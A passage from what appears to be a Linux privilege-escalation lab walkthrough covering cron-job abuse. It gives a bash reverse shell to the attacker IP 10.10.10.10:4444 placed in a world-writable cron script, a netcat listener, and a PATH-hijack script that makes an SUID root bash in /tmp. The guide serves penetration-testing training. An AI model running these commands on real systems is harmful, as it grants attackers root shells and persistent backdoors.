 again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

# Cron Jobs - File Permissions
Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. 
The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:
```sh
cat /etc/crontab
```

There should be two cron jobs scheduled to run every minute. One runs ```overwrite.sh```, the other runs ```/usr/local/bin/compress.sh```.

Locate the full path of the overwrite.sh file:
```sh
locate overwrite.sh
```

Note that the file is world-writable:
```sh
ls -l /usr/local/bin/overwrite.sh
```

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back 
to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?
```sh
nc -nvlp 4444
```

# Cron Jobs - PATH Environment Variable
View the contents of the system-wide crontab:
```sh
cat /etc/crontab
```

Note that the PATH variable starts with /home/user which is our user's home directory.
Create a file called overwrite.sh in your home directory with the following contents:
```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
